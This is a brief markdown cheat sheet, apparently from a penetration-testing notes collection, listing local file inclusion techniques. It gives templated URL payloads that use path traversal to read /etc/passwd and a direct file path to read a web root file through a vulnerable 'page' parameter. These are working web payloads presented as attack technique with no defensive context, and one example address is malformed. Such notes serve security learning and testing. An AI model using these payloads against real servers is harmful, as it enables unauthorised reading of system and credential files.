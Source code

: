 
# Exposing Sensitive Information Techniques

## LFI

### LFI Using Path Traversal

```Bash
<TARGET_URL>/example.php?page=<PATH_TRAVERSAL>
# Example: http://127.0.0.1/example.php?page=../../../../../../etc/passwd
```

### LFI Using the File's Path

```Bash
<TARGET_URL>/example.php?page=<DIRECTORY_PATH>
# Example: http://127.0.01/example.php?page=/var/www/html/index.html
```
